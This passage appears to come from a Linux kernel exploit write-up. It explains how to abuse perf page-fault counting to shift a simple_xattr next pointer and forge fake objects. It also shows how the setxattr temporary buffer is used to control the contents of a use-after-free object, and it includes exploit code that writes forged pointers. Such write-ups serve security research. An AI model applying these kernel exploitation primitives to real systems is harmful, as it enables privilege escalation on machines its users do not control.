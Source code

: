 Setting the event config to `PERF_COUNT_SW_PAGE_FAULTS` will measure page faults, so the event count can be controlled to a desired value by intentionally causing page faults.

So I used the event count to increase the next field of `simple_xattr` by 0x30. This makes the next pointer point to the value field of `simple_xattr`, which allows me to create fake objects as I want.

```c
int setxattr_copy(const char __user *name, struct xattr_ctx *ctx)
{
	int error;

	if (ctx->flags & ~(XATTR_CREATE|XATTR_REPLACE))
		return -EINVAL;

	error = strncpy_from_user(ctx->kname->name, name,
				sizeof(ctx->kname->name));
	if (error == 0 || error == sizeof(ctx->kname->name))
		return  -ERANGE;
	if (error < 0)
		return error;

	error = 0;
	if (ctx->size) {
		if (ctx->size > XATTR_SIZE_MAX)
			return -E2BIG;

		ctx->kvalue = vmemdup_user(ctx->cvalue, ctx->size);
		if (IS_ERR(ctx->kvalue)) {
			error = PTR_ERR(ctx->kvalue);
			ctx->kvalue = NULL;
		}
	}

	return error;
}
```

```c
void *vmemdup_user(const void __user *src, size_t len)
{
	void *p;

	p = kvmalloc(len, GFP_USER);
	if (!p)
		return ERR_PTR(-ENOMEM);

	if (copy_from_user(p, src, len)) {
		kvfree(p);
		return ERR_PTR(-EFAULT);
	}

	return p;
}
```
And the `simple_xattr` object allocates a temporary buffer to copy the value before object allocation as above, and kvfrees it after copying the value. If you kvfree an object with the size of buddy system order 2, the data of the page will remain as it is, so if you use the above logic well, you can freely control all data including the header data of the reallocated object such as the uaf object. I actively utilized this temporary buffer in my exploit.
```c
((uint64_t *)value)[2] = xattr + 0x20000 + 0x40 - 0x30;
((uint64_t *)value)[3] = 0;
((uint64_t *)value)[4] = xattr + 0x20000 + 0x38 - 0x30;
((uint64_t *)value)[5] = 0x10;
```